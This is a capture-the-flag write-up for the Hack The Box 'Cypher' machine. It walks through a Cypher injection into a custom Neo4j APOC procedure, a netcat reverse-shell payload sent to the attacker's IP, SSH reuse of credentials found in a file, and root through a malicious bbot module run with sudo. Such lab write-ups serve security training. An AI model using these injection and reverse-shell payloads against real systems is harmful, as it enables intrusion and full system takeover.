

<p align="center">
  
</p>

[Cypher](https://www.hackthebox.com/machines/cypher) machine on [HachTheBox](https://www.hackthebox.com/) is rated as medium difficulty. Initial access is achieved through a Neo4j Cypher injection by leveraging APOC procedures. During enumeration, a file containing credentials is discovered, which are reused by another user to progress further. Privilege escalation is accomplished via a utility executable with sudo privileges, which contains a vulnerability that enables the execution of a Python module, ultimately granting root access.

## Info

|------------------|----------------------------|
| **Name**         | Cypher                      |
| **OS**           | Linux                      |
| **Difficulty**   | Medium   🟠                  |

## Port scanning

We start by discovering which services are exposed by the target.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/cypher]
└─$ nmap -sC -sV cypher.htb    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 09:04 EDT
Nmap scan report for cypher.htb (10.129.231.244)
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.60 seconds

```

## Initial foothold


Running dirsearch we found a couple of interesting endpoints (`api` and `testing`)

```
┌──(kali㉿kali)-[~/Documents/HTB/cypher]
└─$ dirsearch -u http://cypher.htb/     

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist 
...
[09:06:49] 307 -    0B  - /api/  ->  http://cypher.htb/api/api
...                              
[09:07:32] 301 -  178B  - /testing  ->  http://cypher.htb/testing/          
                                                                             
Task Completed
```

Navigating to `testing` directory reveals a directory listing that contains a `.jar` file



We download file and unpack its contents to examine what’s inside.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/cypher]
└─$ wget http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar         
...
2025-08-20 09:10:55 (777 KB/s) - ‘custom-apoc-extension-1.0-SNAPSHOT.jar’ saved [6556/6556]

┌──(kali㉿kali)-[~/Documents/HTB/cypher]
└─$ unzip custom-apoc-extension-1.0-SNAPSHOT.jar 
Archive:  custom-apoc-extension-1.0-SNAPSHOT.jar
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: com/
   creating: com/cypher/
   creating: com/cypher/neo4j/
   creating: com/cypher/neo4j/apoc/
  inflating: com/cypher/neo4j/apoc/CustomFunctions$StringOutput.class  
  inflating: com/cypher/neo4j/apoc/HelloWorldProcedure.class  
  inflating: com/cypher/neo4j/apoc/CustomFunctions.class  
  inflating: com/cypher/neo4j/apoc/HelloWorldProcedure$HelloWorldOutput.class  
   creating: META-INF/maven/
   creating: META-INF/maven/com.cypher.neo4j/
   creating: META-INF/maven/com.cypher.neo4j/custom-apoc-extension/
  inflating: META-INF/maven/com.cypher.neo4j/custom-apoc-extension/pom.xml  
  inflating: META-INF/maven/com.cypher.neo4j/custom-apoc-extension/pom.properties 
```

From the extracted files, we can tell this is a Java application connected to a Neo4j database. Two files of interest — `HelloWorldProcedure.class` and `CustomFunctions.class` - are decompiled to investigate further.

`HelloWorldProcedure.class`
```java
package com.cypher.neo4j.apoc;

import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

public class HelloWorldProcedure {
   @Procedure(
      name = "custom.helloWorld",
      mode = Mode.READ
   )
   @Description("A simple hello world procedure")
   public Stream<com.cypher.neo4j.apoc.HelloWorldProcedure.HelloWorldOutput> helloWorld(@Name("name") String name) {
      String greeting = "Hello, " + name + "!";
      return Stream.of(new com.cypher.neo4j.apoc.HelloWorldProcedure.HelloWorldOutput(greeting));
   }
}
```

`CustomFunctions.class`
```java
package com.cypher.neo4j.apoc;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;

public class CustomFunctions {
   @Procedure(
      name = "custom.getUrlStatusCode",
      mode = Mode.READ
   )
   @Description("Returns the HTTP status code for the given URL as a string")
   public Stream<com.cypher.neo4j.apoc.CustomFunctions.StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
      if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
         url = "https://" + url;
      }

      String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
      System.out.println("Command: " + Arrays.toString(command));
      Process process = Runtime.getRuntime().exec(command);
      BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
      BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
      StringBuilder errorOutput = new StringBuilder();

      String line;
      while((line = errorReader.readLine()) != null) {
         errorOutput.append(line).append("\n");
      }

      String statusCode = inputReader.readLine();
      System.out.println("Status code: " + statusCode);
      boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
      if (!exited) {
         process.destroyForcibly();
         statusCode = "0";
         System.err.println("Process timed out after 10 seconds");
      } else {
         int exitCode = process.exitValue();
         if (exitCode != 0) {
            statusCode = "0";
            System.err.println("Process exited with code " + exitCode);
         }
      }

      if (errorOutput.length() > 0) {
         System.err.println("Error output:\n" + errorOutput.toString());
      }

      return Stream.of(new com.cypher.neo4j.apoc.CustomFunctions.StringOutput(statusCode));
   }
}
```

From those we can extract info that there are a couple of API endpoints accepting an argument:

- custom.helloWorld (name)
- custom.getUrlStatusCode (url)

The second one looks really promising as `url` gets straight concatenated into a string part of an `sh` command that gets then executed as a `Process`:

```java
String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
System.out.println("Command: " + Arrays.toString(command));
Process process = Runtime.getRuntime().exec(command);
```

Since we need a way to trigger the custom code, we look at the `/login` endpoint—the only other exposed part of the application. With BurpSuite, we capture the login request and send it to Repeater for testing.


Injecting a single quote into the username parameter triggers a Neo4j Cypher query error in the stack trace. This behavior confirms the parameter as a potential injection point for Cypher-based attacks.


Since I’m not very experienced with Cypher injection... had to read some [documentation](https://neo4j.com/developer/kb/protecting-against-cypher-injection/) about that. Specifically the 'Parameters and APOC' section, gets interesting as it coincidentally matches the `.jar` library we found.

After some trial and error, we got a payload for executing APOC methods that does not give an error for `custom.helloWorld` endpoint

```bash
a' RETURN h.value as hash UNION CALL custom.helloWorld('a') YIELD greeting RETURN greeting as hash; //
```


Next, we focus on the `custom.getUrlStatusCode` method we spotted earlier. If exploitable, it can give us our first foothold on the box. After some testing, we craft a payload that spawns a reverse shell back to our attacking machine.

```bash
a' RETURN h.value as hash UNION CALL custom.getUrlStatusCode ('http://10.10.14.217:5555; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.217 4444 >/tmp/f') YIELD statusCode RETURN statusCode as hash; //
```

First part of the payload (`http://10.10.14.217:5555`) is used to complete the command.
the second part after `;` is the actual payload triggering the reverse shell. See how it will be the resulting command

```bash
/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} http://10.10.14.217:5555; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.217 4444 >/tmp/f
```

To execute the reverse shell, two listeners are initiated on the attacker machine: the first on port `5555` and the second on port `4444`, which receives the shell connection. After triggering the payload via the `5555` listener, a connection is established on `4444`, granting access as the `neo4j` user.


But there's a different user on the machine called `graphasm`

```bash
neo4j@cypher:/home$ ls
ls
graphasm
neo4j@cypher:/home$ cd graphasm
cd graphasm
neo4j@cypher:/home/graphasm$ ls
ls
bbot_preset.yml  user.txt
neo4j@cypher:/home/graphasm$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

and also file on `graphasm` user called `bbot_preset.yml` has some credentials in it

```bash
neo4j@cypher:/home/graphascat bbot_preset.yml
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: <--REDACTED-->
```

We give it a shot for 'credential reuse' using SSH with `graphasm` user and it worked

```bash
┌──(kali㉿kali)-[~/…/com/cypher/neo4j/apoc]
└─$ ssh graphasm@cypher.htb 
...
graphasm@cypher:~$ whoami
graphasm
graphasm@cypher:~$ cat user.txt
e8<--REDACTED-->
```

## Privilege escalation

Executing `sudo -l` revelas we can execute `/usr/local/bin/bbot` binary as super user without using any password.

```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

By using `--help` command on `bbot` tool we can see it is using version `v2.1.0.4939rc`

```bash
graphasm@cypher:~$ /usr/local/bin/bbot --help
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc
...
```

While exploring, we found that `bbot` is an OSINT tool hosted on [Github](https://github.com/blacklanternsecurity/bbot) but also that this concrete version has a reported vulnerability as shown on [Seclists](https://seclists.org/fulldisclosure/2025/Apr/19)

Seems that `bbot` allows to run python code as a module. So we can create required module files for executing `/bin/bash -p` and escalate privileges through that

```bash
graphasm@cypher:~$ vim systeminfo_enum.py
graphasm@cypher:~$ cat systeminfo_enum.py
from bbot.modules.base import BaseModule
import pty
import os

class systeminfo_enum(BaseModule):
    watched_events = []
    produced_events = []
    flags = ["safe", "passive"]
    meta = {"description": "System Info Recon (actually spawns root shell)"}

    async def setup(self):
        self.hugesuccess("📡 systeminfo_enum setup called — launching shell!")
        try:
            pty.spawn(["/bin/bash", "-p"])
        except Exception as e:
            self.error(f"❌ Shell failed: {e}")
        return True
graphasm@cypher:~$ vim bbot_preset.yml 
graphasm@cypher:~$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

module_dirs:
  - .
modules:
  - systeminfo_enum
```

By running the command with `sudo` payload gets executed, we gain root privileges and can read root.txt file

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -p ./bbot_preset.yml --event-types ROOT
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 0 targets (0 in whitelist)
[INFO] Loaded 1/1 scan modules (systeminfo_enum)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[SUCC] systeminfo_enum: 📡 systeminfo_enum setup called — launching shell!
root@cypher:/home/graphasm# whoami
root
root@cypher:/home/graphasm# cat /root/root.txt
51<--REDACTED-->

```
